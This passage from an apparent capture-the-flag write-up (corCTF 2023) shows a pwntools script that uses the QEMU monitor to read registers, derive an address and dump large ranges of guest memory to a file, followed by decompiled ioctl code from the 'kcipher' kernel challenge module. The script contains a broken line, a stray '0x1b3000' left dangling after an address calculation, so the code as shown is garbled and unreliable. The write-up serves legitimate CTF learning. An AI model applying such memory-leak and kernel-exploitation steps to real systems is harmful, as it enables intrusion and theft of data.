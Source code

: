 ```python
io.sendlineafter("solution:", stdout)

io.recvuntil("$")
io.send('\x01' + 'c')
io.sendline("info registers")
bla = io.recvuntil("XMM14")
gs_address = re.search(r'GS =\S+ (\S+)'.encode(), bla)

if gs_address:
    print(gs_address.group(1))

heap_leak = int(gs_address.group(1), 0x10)
addr= heap_leak - 0x400000
                  0x1b3000

io.recvuntil("(qemu)")
leak = ""

with open("leaks", "wb+") as f:

    for i in range(300):
        io.sendline(f"x/10000gx {addr}")
        leak = io.recvuntil("(qemu)")
        f.write(leak)
        addr += 10000*8;

io.interactive()
```

<h2 id="kcipher-sec">kcipher</h2>
![kcipher](/assets/corctf2023-kcipher.png)

Kcipher was a usual kernel pwn challenge. The challenge kernel module provides encryption functionality for `ROT`, `XOR`, `A1Z26` and `ATBASH`. We can select one of the operations and an argument for the operation, e.g. the value that will be used for XOR, and the module will create a file instance with the crypto operations as file operations and return a file descriptor to us.

Following is the important functionality in `device_ioctl`:
```c
  if (param_2 == -0x12411100) {
    puVar1 = (uint *)kmalloc_trace(___unregister_chrdev,0x400dc0,0x60);
    if (puVar1 == (uint *)0x0) {
      lVar2 = -0xc;
    }
    else {
      puVar1[6] = 0;
      fd = anon_inode_getfd("kcipher-buf",kcipher_cipher_fops,puVar1,2);
      if (fd < 0) {
        kfree(puVar1);
        return (long)fd;
      }
      lVar2 = _copy_from_user(puVar1,param_3,8);
      if (lVar2 == 0) {
        if (*puVar1 < 4) {
          strncpy((char *)(puVar1 + 7),(&ciphers)[*puVar1],0x40);
          return (long)fd;
        }
```